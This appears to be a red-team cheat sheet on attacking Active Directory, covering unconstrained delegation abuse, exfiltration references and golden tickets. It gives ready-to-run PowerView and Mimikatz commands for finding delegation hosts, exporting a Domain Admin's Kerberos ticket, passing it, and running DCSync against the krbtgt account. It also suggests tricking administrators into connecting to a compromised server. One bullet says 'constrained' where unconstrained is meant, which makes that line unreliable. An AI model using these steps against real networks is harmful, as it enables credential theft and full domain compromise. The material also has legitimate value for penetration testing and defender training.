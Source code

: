 ### Unconstrained Delegation

- In case when constrained delegation is enabled, DC places user’s TGT inside TGS. When the user presents it to server having unconstrained delegation enabled, that TGT is extracted from the TGS and stored in-memory.

- Adversary can export that TGT to access any other resource as that user. Now imagine the consequences when we get the TGT of a Domain Admin.

- List computers having Unconstrained Delegation Enabled : 

```powershell
Get-NetComputer –unconstrained -verbose
```

- Unconstrained Delegation Abuse Steps : 
  - Adversary can compromise the Server where Unconstrained Delegation is enabled.
  - Using Social engineering an adversary can trick the domain admin or any privileged user to connect to the already compromised server.
  - Extract the Domain Admin TGT : 

```powershell
Invoke-Mimikatz –Command "sekurlsa::tickets /export"
```

  - Re-use the ticket to perform other operations as Domain Admin : 

```powershell
Invoke-Mimikatz –Command "kerberos::ptt ticket.kirbi"
```

  - Run DCSYNC Attack : 

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\krbtgt"
```

### Persistence & Exfiltrate

- Once critical assets are identified with enough privileges, Adversaries will try to establish long-term persistence and try to exfiltrate data stealthly.

- For Data Exfiltration adversary can use various protocols to remain under the hood.

- Some of the data exfiltration techniques are mentioned below :*
  - https://attack.mitre.org/techniques/T1020
  - https://attack.mitre.org/techniques/T1048
  - https://attack.mitre.org/techniques/T1052
  - https://attack.mitre.org/techniques/T1537

### Golden Ticket Attack

- Golden ticket is signed and encrypted with the “krbtgt” account hash.

- The krbtgt account hash can be use to impersonate any user with any privileges.

- Requirements :
  - Domain SID
  - Krbtgt hash
  - Domain name
  - SIDS (in Cross-Forest Attacks)
